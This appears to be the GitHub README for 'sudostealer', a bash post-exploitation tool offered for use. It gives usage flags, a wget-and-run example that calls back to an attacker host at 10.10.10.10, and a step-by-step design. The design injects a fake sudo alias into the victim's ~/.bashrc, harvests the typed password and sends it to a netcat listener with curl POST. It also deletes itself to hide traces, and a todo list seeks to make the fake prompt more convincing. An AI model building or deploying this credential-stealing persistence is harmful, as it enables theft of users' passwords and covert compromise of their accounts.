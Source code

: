 # sudostealer

A bash script to steal the `sudo` password of a user when you have a shell (as that user), but no password.

---

__Usage:__

```bash
Usage: ./sudostealer.sh
	[-m method]      	alias, path, binary
	[-d droppath]    	path to drop script. must be writable
	[-p port]        	choose port. always HTTP traffic
	lhost            	host to callback to
```

__Example__:

```
wget https://raw.githubusercontent.com/543hn/sudostealer/master/sudostealer.sh
chmod +x ./sudostealer.sh
./sudostealer.sh 10.10.10.10 -p 80
```

__Requirements__ on `RHOST`:

- `bash`, `sed`, `curl`
- A shell that reads `~/.bashrc`

__Requirements__ on `LHOST`:

- A `netcat` listener on port `80` (or whatever port set with `-p`)

__Screenshots__:

Generating/dropping:

![MainScreen](screenshots/main.png)

Getting a callback:

![Example](screenshots/example.png)

---

__How does it work?__

1. Attacker gains shell access.
2. Run this script (with any options) on the `RHOST`, then delete it.
3. Set up a `nc` listener on `LHOST` on `80` or whichever port you set.
   1. Script inserts `sudo` alias into `~/.bashrc` to be run the next time a terminal opens.
   2. Upon running, script fakes `sudo` prompts.
      1. If incorrect password, continue.
      2. If correct password, break.
4. Wait for user to open a new terminal and types `sudo`.
5. Get sent creds through `POST` data with `curl`.
6. Script deletes itself, removes alias, `exec bash`es.

```
This idea was given to me by rewzilla (github.com/rewzilla)
```

---

If anyone wants to hacktober some stuff, __todo__:

- Handle method input, create new methods for dropping (see comments in script)
- Sanitize/verify CLI input (getopts)
- Don't add 50 aliases if the script is run multiple times
- Fix sudo prompt realness (don't allow CTRL-c to kill sleep-- trap doesn't catch it)
  - Pressing enter on a blank password, then immediately CTRL-c shouldn't exit
- Find a way to force re-sourcing `~/.bashrc` so you don't have to wait for a new terminal